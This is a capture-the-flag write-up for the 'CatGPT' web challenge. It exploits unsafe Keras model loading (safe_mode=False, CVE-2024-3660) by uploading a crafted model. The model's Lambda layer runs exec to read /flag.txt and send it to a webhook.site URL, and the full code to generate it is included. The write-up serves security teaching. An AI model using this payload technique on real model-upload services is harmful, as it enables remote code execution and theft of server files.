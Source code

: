 # Web: CatGPT (491)

The latest and greatest in AI technology being used for that age-old internet diversion....looking at cat photos.

[http://gpt.challs.uscybergames.com/](http://gpt.challs.uscybergames.com/)

Update: Due to possible inconsistencies between local builds made with the provided files and the image on the remote service, here is a copy built on the author's machine for you to test with.

[https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar](https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar)

Author: [tsuto](https://github.com/jselliott)

Luckily, for this challenge, we are given a zip file of the source code for the website.

First, we need to unzip it to look through the code. 

From the Dockerfile, we can see that the flag.txt file will be in the root directory of the Docker container running the challenge.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

Inside model.py, we also can find an interesting function...

```py
def validate_model(model_path):

    try:

        model = tf.keras.models.load_model(model_path,safe_mode=False)

        validation_dir = os.path.join(app.config.get("MODEL_DIR"), 'cats_and_dogs_filtered/validation')

        IMG_SIZE = (150, 150)
        BATCH_SIZE = 32

        validation_datagen = ImageDataGenerator(rescale=1./255)

        validation_generator = validation_datagen.flow_from_directory(
            validation_dir,
            target_size=IMG_SIZE,
            batch_size=BATCH_SIZE,
            class_mode='binary'
        )

        validation_loss, validation_accuracy = model.evaluate(validation_generator, steps=validation_generator.n // BATCH_SIZE,verbose=0)

        return {"accuracy":round(validation_accuracy*100)}
    
    except Exception as e:
        logging.error(e)
        return {"error":"An error occurred while validating your model."}
```

The `safe_mode=False` is pretty interesting here. 

Looking this up, we can find the documentation for TensorFlow: [https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model)

Here, it says `When safe_mode=False, loading an object has the potential to trigger arbitrary code execution.`, which is very interesting for us.

Specifically, what this is referring to is Lambda layers, which are able to use Python code to transform the values of neurons in a neural network, although this can also do other things such as reading a file, as we will do here.

For this challenge, first, it's useful to build the Docker container locally.

If we run `./build-docker.sh` as root, we can do this, although there are some modifications needed.

If we don't modify anything, we get an error:

![Image 1](Screenshots/1.png)

So, in our Dockerfile, we will need to use `--break-system-packages` for both PIP commands to get this to load.

We also need to change the UID since the "UID is not unique" for the one set in the Dockerfile.

Anyways, once we get this loaded, we can start crafting our payload.

Also, doing more research, it turns out this vulnerability actually has a CVE! It is [CVE-2024-3660](https://nvd.nist.gov/vuln/detail/CVE-2024-3660).

And there is also a proof-of-concept posted [on GitHub](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept).

Using this as an example, we can start writing Python code to generate a payload. 

While this example uses the functional mode of creating TensorFlow models, I find Sequential to be a bit easier.

Anways, we can start with a Python script!

We need to import TensorFlow first:

```py
from tensorflow import keras
```

Then, we need to define our input layer. Since the code we are given defines the images as 150x150 and images have 3 colors, the shape should be `(150,150,3)`.

```py
inputs = keras.Input(shape=(150,150,3))
```

Then, we can reduce this to one neuron in a layer by flattening and then using a dense layer.

```py
flatten = keras.layers.Flatten()
dense1 = keras.layers.Dense(units=1)
```

And now is time for our payload!

Using a webhook, we can make this make a request based on the contents of `/flag.txt`! And we can do this all within a Lambda layer!

```py
outputs = keras.layers.Lambda(lambda x: x if exec("__import__('requests').get(f'https://webhook.site/8a80adf1-94d1-4249-9ff3-7fd05707ddde?flag={str(open(\"/flag.txt\",\"r\").read())}')") else x)
```

And now, to build and save!

```py
model = keras.Sequential([inputs, flatten, dense1, outputs])

model.compile(optimizer="adam", loss="mean_squared_error", metrics=('accuracy',))

model.summary()

model.save("payload_native.h5")
```

Here, we also need the `metrics` parameter to ensure everything loads properly since loss and accuracy are used by the `validate_model` function.

Now, it's time to try this on our Docker container!

If we go to `http://localhost:1337`, we can access the website.

![Image 2](Screenshots/2.png)

Now, if we go to "contribute", we can upload our file and see what happens!

Unfortunately, nothing happens and it actually throws an error.

![Image 3](Screenshots/3.png)

This is because we're using the wrong version of Python!

![Image 4](Screenshots/4.png)
![Image 5](Screenshots/5.png)

While the Docker container is using Python 3.12.3, we are using 3.11.8. This is an issue because when the Lambda layer is serialized by TensorFlow, it compiles this to bytecode which changes by Python version. Therefore, we must at least use the same major version of Python as the server we are targeting. If we re-run our original Docker container with a volume, using the `-v $PWD:/tmp` flag, we can build from this container. However, we need to make sure the entire directory has public write permissions first. To separate, I also changed the Python script to name the output file `payload_docker.h5` instead. 

And now, if we build here and upload, we see it works!

![Image 6](Screenshots/6.png)
![Image 7](Screenshots/7.png)

Though, now we need to know what version of Python the main environment uses... At first, this was not given, but in an update to the challenge, a `.tar` file was included that includes all the information we need to find this exact environment! It turned out that Python was not as updated as it could have been, likely because Docker cached the results of the Python update from a previous container. 

Anyways, if we extract this `.tar` file, we can start doing some forensics to figure out what happened. 

When we start extracting the `layer.tar` file in `1fa339f371eedfc9bf8efc7dafb7218405123118ca7eb36d6ff1bffbc4c36542`, we already start to see what we need!

![Image 8](Screenshots/8.png)

And so now, we know that the server uses Python 3.10! The nice thing is that there is a [Docker container](https://hub.docker.com/_/python) for Python, which we can pull version 3.10 from!

Now, we can run this Docker container and install TensorFlow, and then generate our new payload.

![Image 9](Screenshots/9.png)

And once we have it, we can upload to the main instance and get our flag!

And checking our webhook, we can find the flag!

![Image 10](Screenshots/10.png)

And our flag is `SIVUSCG{c4t_0r_d0g_0rrrrrrr_fl4g}`!